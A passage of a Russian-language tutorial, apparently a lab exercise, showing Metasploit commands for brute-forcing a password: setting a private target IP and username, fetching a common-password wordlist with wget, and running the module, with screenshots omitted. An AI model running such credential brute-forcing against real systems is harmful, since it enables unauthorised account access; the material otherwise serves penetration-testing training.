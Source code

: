 Указываем IP-адрес атакуемого сервера:

`set RHOSTS 192.168.122.205`

![](Aspose.Words.2abdd5fc-4121-4a57-a723-5b18ba07288b.006.png)

Устанавливаем имя пользователя, с которым будем брутфорсить пароль:

`set USERNAME IvanPopov_IT`

![](Aspose.Words.2abdd5fc-4121-4a57-a723-5b18ba07288b.007.png)

При помощи wget скачиваем список самых популярных паролей с github в .txt файле:

`wget <https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/2023-200_most_used_passwords.txt>`

![](Aspose.Words.2abdd5fc-4121-4a57-a723-5b18ba07288b.008.png)

После чего применяем его командой:

`set PASS_FILE /home/kk/2023-200_most_used_passwords.txt`

![](Aspose.Words.2abdd5fc-4121-4a57-a723-5b18ba07288b.009.png)

Запускаем брутфорс с помощью команды:

`run`

После успешного подбора пароля получаем следующий вывод:

![](Aspose.Words.2abdd5fc-4121-4a57-a723-5b18ba07288b.010.png)
